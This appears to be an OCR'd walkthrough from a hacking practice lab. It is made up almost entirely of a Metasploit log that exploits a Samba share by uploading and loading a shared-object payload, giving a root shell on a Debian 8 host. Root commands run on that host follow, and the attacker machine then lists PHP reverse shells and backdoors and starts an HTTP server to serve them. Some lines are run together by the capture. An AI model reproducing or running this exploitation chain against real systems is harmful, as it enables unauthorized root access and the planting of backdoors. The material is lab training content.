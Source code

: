 ```
[*] 192.34.83.3:445 - Using location \\192.34.83.3\exploitable\tmp for the path                                                                            [*] 192.34.83.3:445 - Retrieving the remote path of the share 'exploitable'[*] 192.34.83.3:445 - Share 'exploitable' has server-side path '/[*] 192.34.83.3:445 - Uploaded payload to \\192.34.83.3\exploitable\tmp\JZvgnZjz.so                                                                        [*] 192.34.83.3:445 - Loading the payload from server-side path /tmp/JZvgnZjz.so using \\PIPE\/tmp/JZvgnZjz.so...                                          [-] 192.34.83.3:445 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] 192.34.83.3:445 - Loading the payload from server-side path /tmp/JZvgnZjz.so using /tmp/JZvgnZjz.so...                                                 
[+] 192.34.83.3:445 - Probe response indicates the interactive payload was loaded...                                                                       
[*] Found shell.
[*] Command shell session 1 opened (192.34.83.2:43969 -> 192.34.83.3:445) at 2023-06-23 03:34:49 +0000 
```

```
/bin/bash -i                                                                                                                                                
bash: cannot set terminal process group (8): Inappropriate ioctl for device                                                                                 
bash: no job control in this shell                                                                                                                          
root@victim-1:/tmp# id                                                                                                                                      
id                                                                                                                                                          
uid=0(root) gid=0(root) groups=0(root)                                                                                                                     
root@victim-1:/tmp# cat /etc/*release
cat /etc/*release
PRETTY_NAME="Debian GNU/Linux 8 (jessie)"
NAME="Debian GNU/Linux"
VERSION_ID="8"
VERSION="8 (jessie)"
ID=debian
HOME_URL="http://www.debian.org/"
SUPPORT_URL="http://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
root@victim-1:/tmp# pwd
pwd
/tmp
root@victim-1:/tmp# 
```

`Ctrl+b c`

session 1

```
root@attackdefense:~# cd /usr/share/webshells/php
root@attackdefense:/usr/share/webshells/php# lsfindsock.c  php-backdoor.php  php-findsock-shell.php  php-reverse-shell.php  qsd-php-backdoor.php  simple-backdoor.phproot@attackdefense:/usr/share/webshells/php# python3 -m http.server 80Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
